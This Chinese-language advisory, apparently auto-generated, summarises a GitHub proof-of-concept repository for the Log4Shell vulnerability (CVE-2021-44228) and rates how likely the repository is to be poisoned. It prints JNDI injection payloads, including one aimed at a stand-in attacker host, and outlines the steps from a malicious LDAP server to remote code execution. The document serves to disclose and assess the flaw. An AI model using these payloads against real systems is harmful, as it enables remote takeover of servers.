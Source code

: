 ## CVE-2021-44228 - Apache Log4j2 JNDI 注入

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行

**影响应用:** Apache Log4j2

**危害等级:** 高危，可能导致远程代码执行和服务器完全控制

**影响版本:** 2.0-beta9 到 2.15.0 (不包括安全版本 2.12.2, 2.12.3, 和 2.3.1)

**利用条件:** 目标系统使用受影响版本的 Log4j2 并且启用了消息查找替换。

**POC 可用性:** 是

**投毒风险:** 5%

## 详情

CVE-2021-44228，又称Log4Shell，是Apache Log4j2中的一个严重漏洞。攻击者可以通过向Log4j2记录的日志消息中注入恶意的JNDI查找字符串来利用此漏洞。当Log4j2处理包含`\${jndi:}`语法的字符串时，它会尝试通过JNDI（Java Naming and Directory Interface）来解析该字符串。攻击者可以利用这一点，将JNDI指向恶意的LDAP或其他JNDI服务，从而使Log4j2从攻击者控制的服务器上加载并执行任意Java代码，导致远程代码执行(RCE)。

**有效性：**

根据漏洞库信息、搜索结果和提供的POC代码，可以确定该漏洞利用代码是有效的。搜索结果中多个链接（例如NVD, CISA, Unit 42, Cloudflare, Red Hat, Oracle, Microsoft, Sysdig, Picus Security, CrowdStrike）都表明CVE-2021-44228是一个被广泛利用的RCE漏洞。POC代码通过`logger.error("${jndi:ldap://127.0.0.1:1389/any}")`演示了如何触发JNDI查找，如果目标系统存在漏洞，则会尝试连接到指定的LDAP服务器，从而允许远程代码执行。

**投毒风险：**

提供的代码仓库主要包含一个简单的 Maven 项目，包括 `pom.xml` 和 `Main.java` 文件。

*   `pom.xml`: 定义了项目依赖，仅包含 `log4j-core`，版本为 `2.14.1`，这是一个受漏洞影响的版本。
*   `Main.java`: 包含一个简单的 Log4j2 日志记录器，它会记录一条包含 JNDI 注入payload的错误消息。

此仓库的投毒风险较低，约为 5%。主要原因是：

1.  **代码量少且简单**：整个仓库的代码非常少，容易审查。
2.  **目的明确**：代码的目的是为了演示 CVE-2021-44228 漏洞的利用，`Main.java` 中的 payload 清晰可见。
3.  **无恶意行为**：代码本身除了触发 JNDI 查找外，没有其他恶意行为，例如文件操作、网络连接等。

但是，仍然存在极低的风险，比如构建脚本或IDE配置中可能存在隐藏的恶意代码。所以给出5%的风险评估。

**利用方式：**

1.  **攻击者控制日志消息：** 攻击者需要找到一种方法，使包含恶意JNDI查找字符串（例如 `${jndi:ldap://attacker.com/evil}`）的消息被Log4j2记录。
2.  **触发JNDI查找：** 当Log4j2记录包含恶意JNDI查找字符串的消息时，它会尝试通过JNDI连接到攻击者指定的LDAP服务器。
3.  **恶意LDAP服务器：** 攻击者需要设置一个恶意的LDAP服务器，该服务器会返回一个指向恶意Java类的URL。
4.  **远程代码执行：** Log4j2会从URL下载并执行恶意Java类，从而导致远程代码执行。攻击者可以通过这种方式在目标系统上执行任意命令。

**项目地址:** [cuijiung/log4j-CVE-2021-44228](https://github.com/cuijiung/log4j-CVE-2021-44228)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)